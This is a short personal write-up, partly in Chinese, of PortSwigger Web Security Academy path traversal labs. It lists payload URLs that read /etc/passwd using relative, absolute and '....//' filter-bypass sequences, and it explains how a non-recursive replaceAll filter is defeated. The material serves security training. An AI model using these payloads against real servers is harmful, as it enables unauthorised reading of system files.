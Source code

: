 ```yaml
---
title: Path traversal
description: Path traversal
---
```


## Lab: File path traversal, simple case

| Dimension | Description                                                                                         |
| --------- | --------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#reading-arbitrary-files-via-path-traversal |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-simple                                 |

https://0ac500190350f9c38193bb9d002c00e0.web-security-academy.net/image?filename=../../../etc/passwd

## Lab: File path traversal, traversal sequences blocked with absolute path bypass

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass                                      |

https://0a3d002f047dcfbe8067306900890009.web-security-academy.net/image?filename=/etc/passwd

## Lab: File path traversal, traversal sequences stripped non-recursively

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively                        |

假設後端有以下邏輯

```js
path.replaceAll("../", "");
```

那我們可以構造

```
....//
```

結果是

```js
"....//".replaceAll("../", "") => "../"
```

簡單來說，就是利用後端過濾 traversal sequences 的漏洞來達成 Path Traversal，但不同程式語言轉義反斜線 `\` 的方式不一樣，所以要多嘗試(?)

https://0aab00f703a0e8418241bac5006000f6.web-security-academy.net/image?filename=....//....//....//etc/passwd

一次成功，這個 Bypass 技巧我之前都沒想過，算是有學到新的技巧，讚讚

## Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/file-path-traversal#common-obstacles-to-exploiting-path-traversal-vulnerabilities |
| Lab       | https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode                                    |

## 參考資料

- https://portswigger.net/web-security/file-path-traversal
